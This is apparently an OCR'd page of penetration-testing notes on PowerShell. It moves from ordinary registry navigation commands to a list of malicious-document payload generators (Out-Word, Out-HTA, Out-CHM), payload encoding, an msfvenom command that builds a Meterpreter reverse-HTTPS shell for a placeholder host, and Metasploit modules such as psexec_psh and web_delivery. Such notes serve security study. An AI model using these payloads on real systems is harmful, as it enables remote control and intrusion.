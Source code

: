   - Shell.Applcation.1   

## Windows Registry

```
Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version'
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version' -Recurse
```
- Use registry as filesystem:
    ```
    Get-Provider -PSProvider Registry
    ```
    ```
    Set-Location Registry::
    > ls
    > cd HKLM
    > ls

    New-PSDrive -name RegistryDrive -PSProvider Registry -Root Registry::
    > dir

    Get-PSDrive

    New-Item -Path HKCU:\Test\New
    New-ItemProperty -Path HKCU:\Test\New -Name Reg2 -PropertyType String -Value 2
    Rename-Item HKCU:\Test -NewName HKCU:TestNew
    Rename-ItemProperty HKCU:\Test\New -Name Reg2 -NewName Reg3
    Set-ItemProperty -Path HKCU:\Test\New -Name Reg2 -Value 3
    ```

- Client Side Attacks
  - Out-Word
  - Out-Excel
  - Out-CHM
  - Out-Shortcut
  - Out-HTA
  - Out-Java
- Encoding
  - `Invole-Encode -DataToEncode example.ps1 -OutCommand `
    - `Out-CHM -Payload "-e <encodedValue>"`

## Metasploit

- Using Powershell with Metasploit: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Powershell-in-an-exploit>
    ```
    msfvenom meterpreter
    ./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> -f psh-reflection

    cmd/windows/reverse_powershell
    ```
- Useful modules:
  - exploit/windows/smb/psexec_psh
    - Payload is encoded
  - exploit/windows/local/powershell_cmd_upgrade
    - Upgrade native to Powershell
  - post/windows/manage/powershell/exec_powershell
  - exploit/multi/script/web_delivery
